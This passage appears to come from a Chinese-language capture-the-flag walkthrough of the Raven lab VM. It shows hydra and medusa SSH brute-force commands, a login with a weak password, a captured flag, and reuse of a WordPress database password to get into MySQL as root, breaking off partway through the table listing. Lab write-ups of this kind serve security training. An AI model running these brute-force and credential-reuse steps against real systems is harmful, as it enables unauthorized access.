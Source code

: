    ``````
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ``````
   然后用 michael和 steven 尝试暴力破解用ssh 登录是否有方式
   - hydra -L users.txt -P passwd.txt ssh://192.168.56.105
   - medusa -h 192.168.56.105 -u michael -P passwd.txt -M ssh -t 5
   - medusa -h 192.168.56.105 -u steven -P passwd.txt -M ssh -t 5

发现ssh michael@192.168.56.105密码就是michael
登录进去 查看
``````
michael@Raven:~$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
michael@Raven:~$ ls -la
total 28
drwxr-xr-x 2 michael michael 4096 Dec 30 05:04 .
drwxr-xr-x 4 root    root    4096 Aug 13 13:51 ..
-rw------- 1 michael michael  210 Dec 30 05:04 .bash_history
-rw-r--r-- 1 michael michael  220 Aug 13 07:52 .bash_logout
-rw-r--r-- 1 michael michael 3515 Aug 13 07:52 .bashrc
-rw------- 1 root    michael  802 Dec 30 04:52 .mysql_history
-rw-r--r-- 1 michael michael  675 Aug 13 07:52 .profile
michael@Raven:~$ ls -la /var/www/
total 20
drwxrwxrwx  3 root     root     4096 Aug 13 09:59 .
drwxr-xr-x 12 root     root     4096 Aug 13 07:44 ..
-rw-------  1 www-data www-data  519 Dec 30 03:21 .bash_history
-rw-r--r--  1 root     root       40 Aug 13 09:27 flag2.txt
drwxrwxrwx 10 root     root     4096 Dec 30 01:28 html
michael@Raven:~$ cat /var/www/flag2.txt
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
``````
在当前用户和 /var/www/html下发现
/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

并且是root进程运行mysql
``````
mysql -u root -pR@v3nSecurity
  mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)

mysql> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables
    -> ;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
``````